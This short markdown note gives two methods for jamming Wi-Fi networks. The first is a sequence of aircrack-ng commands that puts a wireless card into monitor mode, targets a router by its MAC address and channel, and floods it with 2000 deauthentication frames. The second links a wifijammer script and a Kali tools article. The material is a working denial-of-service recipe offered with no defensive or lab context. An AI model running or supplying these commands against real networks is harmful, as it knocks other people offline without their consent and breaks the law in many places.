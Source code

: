 ## Method 1 - Airplay-ng

Tutorial https://www.youtube.com/watch?v=RdVIlMABYVc

```
airmon-ng start wlan0
airmon-ng check kill
airmon-ng start wlan0
airodump-ng wlan0mon
airodump-ng --bssid xx:xx:xx:xx:xx:xx --channel 6 wlan0mon
aireplay-ng --deauth 2000 -a xx:xx:xx:xx:xx:xx wlan0mon
```

xx:xx:xx:xx:xx:xx is MAC address of the router


## Method 2 - Wifijammer Script

https://github.com/DanMcInerney/wifijammer

Article https://en.kali.tools/?p=394
